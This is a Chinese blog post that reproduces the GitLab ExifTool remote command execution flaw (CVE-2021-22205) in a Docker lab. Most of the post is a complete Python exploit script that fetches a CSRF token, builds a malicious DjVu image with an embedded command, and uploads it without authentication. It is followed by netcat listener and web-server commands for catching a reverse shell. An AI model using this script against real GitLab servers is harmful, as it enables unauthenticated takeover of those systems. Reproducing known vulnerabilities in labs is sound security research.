




# GitLab 远程命令执行漏洞（CVE-2021-22205） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16281792.html`](https://www.cnblogs.com/NoCirc1e/p/16281792.html)

GitLab 是一款 Ruby 开发的 Git 项目管理平台。在 11.9 以后的 GitLab 中，因为使用了图片处理工具 ExifTool 而受到漏洞[CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在 GitLab 服务器上执行任意命令。

参考链接：

*   [`hackerone.com/reports/1154542`](https://hackerone.com/reports/1154542)
*   [`devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html`](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)
*   [`security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/`](https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/)
*   [`github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml`](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml)

## 漏洞环境

执行如下命令启动一个 GitLab 13.10.1 版本服务器：

```
docker-compose up -d
```



环境启动后，访问`http://your-ip:8080`即可查看到 GitLab 的登录页面。



## 漏洞复现

GitLab 的/uploads/user 接口可以上传图片且无需认证，利用[poc.py](https://github.com/vulhub/vulhub/blob/master/gitlab/CVE-2021-22205/poc.py)脚本来测试这个漏洞：

```
import sys
import re
import requests

target = sys.argv[1]
command = sys.argv[2]
session = requests.session()
CSRF_PATTERN = re.compile(rb'csrf-token" content="(.*?)" />')

def get_payload(command):
    rce_payload = b'\x41\x54\x26\x54\x46\x4f\x52\x4d'
    rce_payload += (len(command) + 0x55).to_bytes(length=4, byteorder='big', signed=True)
    rce_payload += b'\x44\x4a\x56\x55\x49\x4e\x46\x4f\x00\x00\x00\x0a\x00\x00\x00\x00\x18\x00\x2c\x01\x16\x01\x42\x47\x6a\x70\x00\x00\x00\x00\x41\x4e\x54\x61'
    rce_payload += (len(command) + 0x2f).to_bytes(length=4, byteorder='big', signed=True)
    rce_payload += b'\x28\x6d\x65\x74\x61\x64\x61\x74\x61\x0a\x09\x28\x43\x6f\x70\x79\x72\x69\x67\x68\x74\x20\x22\x5c\x0a\x22\x20\x2e\x20\x71\x78\x7b'
    rce_payload += command.encode()
    rce_payload += b'\x7d\x20\x2e\x20\x5c\x0a\x22\x20\x62\x20\x22\x29\x20\x29\x0a'
    return rce_payload

def csrf_token():
    response = session.get(f'{target}/users/sign_in', headers={'Origin': target})
    g = CSRF_PATTERN.search(response.content)
    assert g, 'No CSRF Token found'

    return g.group(1).decode()

def exploit():
    files = [('file', ('test.jpg', get_payload(command), 'image/jpeg'))]
    session.post(f'{target}/uploads/user', files=files, headers={'X-CSRF-Token': csrf_token()})

if __name__ == '__main__':
    exploit()
    print('finish test')
```

准备好 POC



攻击机开启监听和 Web 服务

```
nc -lvvp 9999
&
python3 -m http.server 8888
```

使用 POC 反弹 Shell 成功

